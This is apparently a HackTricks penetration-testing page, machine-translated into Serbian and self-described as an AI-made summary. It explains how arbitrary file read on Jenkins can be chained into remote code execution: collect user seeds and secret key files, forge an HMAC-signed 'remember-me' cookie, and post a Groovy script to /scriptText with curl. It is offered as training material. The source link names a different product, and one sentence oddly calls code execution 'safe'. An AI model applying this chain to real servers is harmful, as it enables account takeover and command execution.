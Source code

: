 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{{#include ../../banners/hacktricks-training.md}}

U ovom blog postu je moguće pronaći sjajan način da se transformiše ranjivost Local File Inclusion u Jenkins-u u RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Ovo je AI kreirani sažetak dela posta gde se zloupotrebljava kreacija proizvoljnog kolačića da bi se dobio RCE zloupotrebom lokalnog čitanja datoteka dok ne budem imao vremena da napravim svoj sažetak:

### Attack Prerequisites

- **Feature Requirement:** "Remember me" mora biti omogućeno (podrazumevani postavka).
- **Access Levels:** Napadač treba Overall/Read dozvole.
- **Secret Access:** Sposobnost čitanja binarnog i tekstualnog sadržaja iz ključnih datoteka.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

- Pristupite korisničkoj konfiguraciji i tajnama iz `$JENKINS_HOME/users/*.xml` za svakog korisnika da prikupite:
- **Username**
- **User seed**
- **Timestamp**
- **Password hash**

**Secret Key Extraction**

- Izvucite kriptografske ključeve korišćene za potpisivanje kolačića:
- **Secret Key:** `$JENKINS_HOME/secret.key`
- **Master Key:** `$JENKINS_HOME/secrets/master.key`
- **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

- **Calculate Token Expiry Time:**

```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000 // Dodaje jedan sat trenutnom vremenu
```

- **Concatenate Data for Token:**

```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```

**MAC Key Decryption**

- **Decrypt MAC Key File:**

```javascript
key = toAes128Key(masterKey)  // Pretvori master ključ u AES128 format
decrypted = AES.decrypt(macFile, key)  // Dešifruj .mac datoteku
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signature Computation**

- **Compute HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey) // Izračunaj HMAC koristeći token i MAC ključ
tokenSignature = bytesToHexString(mac) // Pretvori MAC u heksadecimalni string
```

**Cookie Encoding**

- **Generate Final Cookie:**

```javascript
cookie = base64.encode(
username + ":" + tokenExpiryTime + ":" + tokenSignature
) // Base64 kodiraj podatke kolačića
```

#### Step 3: Code Execution

**Session Authentication**

- **Fetch CSRF and Session Tokens:**
- Napravite zahtev ka `/crumbIssuer/api/json` da dobijete `Jenkins-Crumb`.
- Zabeležite `JSESSIONID` iz odgovora, koji će se koristiti zajedno sa kolačićem "remember-me".

**Command Execution Request**

- **Send a POST Request with Groovy Script:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

- Groovy skripta može se koristiti za izvršavanje komandi na sistemskom nivou ili drugih operacija unutar Jenkins okruženja.

Primer curl komande prikazan pokazuje kako napraviti zahtev ka Jenkins-u sa potrebnim zaglavljima i kolačićima za sigurno izvršavanje proizvoljnog koda.

{{#include ../../banners/hacktricks-training.md}}
